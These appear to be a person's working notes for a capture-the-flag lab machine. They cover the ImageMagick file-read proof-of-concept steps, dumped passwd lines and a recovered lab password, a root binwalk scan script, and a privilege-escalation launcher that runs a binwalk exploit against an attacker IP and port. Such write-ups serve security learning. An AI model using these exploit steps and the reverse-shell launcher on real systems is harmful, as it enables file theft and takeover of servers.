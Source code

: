 ```yaml
---
category: Uncategorized
tags: []
---
```


root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash



## User

https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

### Usage:

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#installing-dependencies)Installing dependencies:

`1. $ apt-get install pngcrush imagemagick exiftool exiv2 -y`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#change-the-filename-you-want-to-read-below)Change the filename you want to read below:

`2. $ pngcrush -text a "profile" "/etc/hosts" vjp.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#confirm-everything-worked-perfectly)Confirm everything worked perfectly

`3. $ exiv2 -pS pngout.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#trigger-the-poc-via-convert-or-upload-image-to-the-vulnerable-service)Trigger the PoC via convert or upload image to the vulnerable service:

`4. $ convert pngout.png gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#view-content-of-file-was-read)View content of file was read:

`5. $ identify -verbose gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#decrypt-the-content)Decrypt the content:

`6. $ python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a").decode("utf-8"))'`


 $db = new PDO('sqlite:/var/db/pilgrimage');

testpassword

abigchonkyboi123

emily:abigchonkyboi123


2023/06/27 06:56:55 CMD: UID=0    PID=721    | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/27 06:56:55 CMD: UID=0    PID=720    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ 

#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done





### PWN SCRIPTS


###  exploit.sh

#!/bin/bash                                                                                                         

while true; do                                                                                                      
file=$(ls /var/www/pilgrimage.htb/tmp/)                                                                             

        if [ -z "$file" ]; then                                                                                     
                echo "Nada..."                                                                                      

        else                                                                                                        
                break                                                                                               
        fi                                                                                    

done                                                                                                                

ruta="/var/www/pilgrimage.htb/tmp/$file"                                                                            
echo -e "\n Se encontró un archivo! $ruta\n"                                                                        

cp $ruta .                                                                                                          

echo "[*] Se va a ejecutar el script de python"                                                                     

python3 exploit.py /dev/shm/$file 10.10.14.126 1234

## exploit.py
https://www.exploit-db.com/exploits/51249